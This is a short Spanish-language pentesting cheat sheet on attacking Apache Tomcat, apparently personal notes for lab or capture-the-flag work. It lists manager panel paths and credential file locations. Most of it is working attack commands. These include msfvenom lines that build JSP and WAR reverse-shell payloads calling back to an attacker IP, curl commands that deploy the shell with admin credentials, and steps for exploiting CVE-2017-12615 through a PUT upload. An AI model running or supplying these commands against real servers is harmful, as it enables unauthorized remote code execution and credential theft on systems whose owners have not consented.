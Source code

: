# Tomcat 

Tags: #Tomcat #Windows

## Ruta en la web

```bash 
/manager/html                # Ruta tipica que contiene un panel de autenticacion en donde se encuentra el panel de admin en Tomcat 
/host-manager/html           # Ruta alternativa 

/manager/status/             # Muestra la version de Tomcat         
```

## Ruta en consola

```bash 
/etc/tomcat9/tomcat-users.xml              # Archivo que contiene usuarios y sus passwd
/usr/share/tomcat9/etc/tomcat-users.xml    # Ruta alternativa
```

## Crear una aplicación para subirla desde el panel Tomcat  

```bash 
# En el panel de manager, encontramos una opción en donde podemos subir un archivo .war, por lo que hacemos lo siguiente:

❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war -o shell.war # Creamos nuestro archivo malicioso .war 

	# p = Payload
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port 'Atacante'
	# f = Formato war
	# o = Exportar como 'shell.war'
```

## Subir una aplicación desde la consola con credenciales validas de 'admin'

```bash 
❯ curl -s -u 'username:passwd' -X GET "http://IP/manager/text/list"    # Listar aplicaciones existentes en Tomcat si tenemos credenciales validas 

- [ ] ❯ curl -s -u 'username:passwd' "http://IP/manager/text/deploy?path=/shell" --upload-file shell.war  # Desplegar la aplicacion creada anteriormente 
```

## Subir una aplicación sin credenciales CVE-2017-12615

```bash 
# Utilizando el Tomcat < 9.0.1 (beta) < 8.5.23 

1. Crear el archivo malicioso con 'Msfvenom'

❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f raw -o shell.jsp # Creamos nuestro archivo malicioso .jsp
	
2. Capturar con Burpsuite la peticion del puerto 8080
3. Colocar en la cabecera 'PUT /shell.jsp' para cargar el archivo antes creado en el Tomcat
4. Mandar la peticion 

Nota: Si al momento de cargar el archivo por la web para obtener la revershell nos muestra el contenido del archivo. Agregar ese contenido al 'Body' de nuestra peticion en Burpsuite y al momento de volverlo a mandar, ahora si nos dara la Revershell. 
```